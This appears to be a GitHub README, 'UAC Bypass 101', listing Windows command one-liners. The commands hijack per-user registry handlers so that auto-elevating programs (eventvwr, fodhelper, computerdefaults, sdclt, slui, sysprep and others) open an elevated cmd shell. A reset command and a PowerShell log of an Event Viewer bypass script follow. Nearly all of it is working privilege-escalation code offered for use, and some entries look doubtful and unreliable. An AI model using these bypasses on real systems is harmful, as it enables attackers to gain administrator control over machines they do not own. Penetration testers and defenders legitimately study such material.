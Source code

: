 # UAC Bypass 101
Collection of one-liners to bypass User Account Control (UAC) in Windows. These techniques exploit certain behavior in Windows applications to elevate privileges.

Techniques
<br>
Using eventvwr.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && eventvwr.exe
```
<br>
Using fodhelper.exe: <br> <br>

```

reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

```


Using computerdefaults.exe:<br> <br>

```

reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
Using sdclt.exe:<br> <br>

```

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe /ve /t REG_SZ /d "cmd.exe" /f && start sdclt.exe
```
<br>
Using slui.exe:<br> <br>

```

reg add HKCU\Software\Classes\exefile\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\exefile\shell\open\command /v DelegateExecute /f && start slui.exe
```

<br>
Using perfmon.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && start perfmon.exe
```

Using taskmgr.exe: <br><br>


```
reg add HKCU\Software\Classes\taskmgr\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && start taskmgr.exe
```

Using ComputerDefaults.exe: <br><br>
```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && start computerdefaults.exe
```

Using sysprep.exe:

```

reg add HKCU\Software\Classes\AppID\{921C1A8B-9F15-4DA4-9235-0472C3A216E6} /f /ve /t REG_SZ /d "cmd.exe" && start C:\Windows\System32\sysprep\sysprep.exe
```

Using control.exe with /computername:

```

cmd /c reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /ve /d "cmd.exe" /f && control.exe /computername

```

<b>Reset</b>:

```
reg delete "HKCU\Software\Classes\mscfile\shell\open\command" /f && reg delete HKCU\Software\Classes\ms-settings\shell\open\command /f && reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe /f && reg delete HKCU\Software\Classes\exefile\shell\open\command /f && reg delete HKCU\Software\Classes\taskmgr\shell\open\command /f && reg delete HKCU\Software\Classes\AppID\{921C1A8B-9F15-4DA4-9235-0472C3A216E6} /f
```

### Pop administrator cmd shell using event viewer UAC Bypass
![](https://github.com/CsEnox/EventViewer-UACBypass/blob/main/Invoke-EventViewer.ps1)

```Powershell
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```
